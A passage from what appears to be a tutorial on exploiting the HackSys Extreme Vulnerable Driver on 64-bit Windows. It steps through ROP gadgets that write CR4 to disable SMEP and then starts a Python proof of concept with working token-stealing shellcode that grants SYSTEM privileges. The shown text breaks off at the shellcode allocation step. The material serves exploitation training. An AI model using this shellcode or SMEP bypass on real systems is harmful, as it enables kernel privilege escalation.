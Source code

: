 <img src="{{ site.url }}{{ site.baseurl }}/images/64_03.png" alt="">

Now that we are here, stepping through should pop our intended CR4 value into RCX

<img src="{{ site.url }}{{ site.baseurl }}/images/64_04.png" alt="">

Perfect. Stepping through, we should land on our next ROP gadget- which will move RCX (desired value to disable SMEP) into CR4.

<img src="{{ site.url }}{{ site.baseurl }}/images/64_05.png" alt="">

Perfect! Let's disable SMEP!

<img src="{{ site.url }}{{ site.baseurl }}/images/64_06.png" alt="">

Nice! As you can see, after our ROP gadgets are executed - we hit our breakpoints (placeholder for our shellcode to verify SMEP is disabled)!

<img src="{{ site.url }}{{ site.baseurl }}/images/64_07.png" alt="">

This means we have succesfully disabled SMEP, and we can execute usermode shellcode! Let's finalize this exploit with a working POC. We will merge our payload concepts with the exploit now! Let's update our script with weaponized shellcode!

```python
import struct
import sys
import os
from ctypes import *

kernel32 = windll.kernel32
ntdll = windll.ntdll
psapi = windll.Psapi


payload = bytearray(
    "\x65\x48\x8B\x04\x25\x88\x01\x00\x00"              # mov rax,[gs:0x188]  ; Current thread (KTHREAD)
    "\x48\x8B\x80\xB8\x00\x00\x00"                      # mov rax,[rax+0xb8]  ; Current process (EPROCESS)
    "\x48\x89\xC3"                                      # mov rbx,rax         ; Copy current process to rbx
    "\x48\x8B\x9B\xE8\x02\x00\x00"                      # mov rbx,[rbx+0x2e8] ; ActiveProcessLinks
    "\x48\x81\xEB\xE8\x02\x00\x00"                      # sub rbx,0x2e8       ; Go back to current process
    "\x48\x8B\x8B\xE0\x02\x00\x00"                      # mov rcx,[rbx+0x2e0] ; UniqueProcessId (PID)
    "\x48\x83\xF9\x04"                                  # cmp rcx,byte +0x4   ; Compare PID to SYSTEM PID
    "\x75\xE5"                                          # jnz 0x13            ; Loop until SYSTEM PID is found
    "\x48\x8B\x8B\x58\x03\x00\x00"                      # mov rcx,[rbx+0x358] ; SYSTEM token is @ offset _EPROCESS + 0x348
    "\x80\xE1\xF0"                                      # and cl, 0xf0        ; Clear out _EX_FAST_REF RefCnt
    "\x48\x89\x88\x58\x03\x00\x00"                      # mov [rax+0x358],rcx ; Copy SYSTEM token to current process
    "\x48\x83\xC4\x40"                                  # add rsp, 0x40       ; RESTORE (Specific to HEVD)
    "\xC3"                                              # ret                 ; Done!
)

# Defeating DEP with VirtualAlloc. Creating RWX memory, and copying our shellcode in that region.
# We also need to bypass SMEP before calling this shellcode
print "[+] Allocating RWX region for shellcode"
```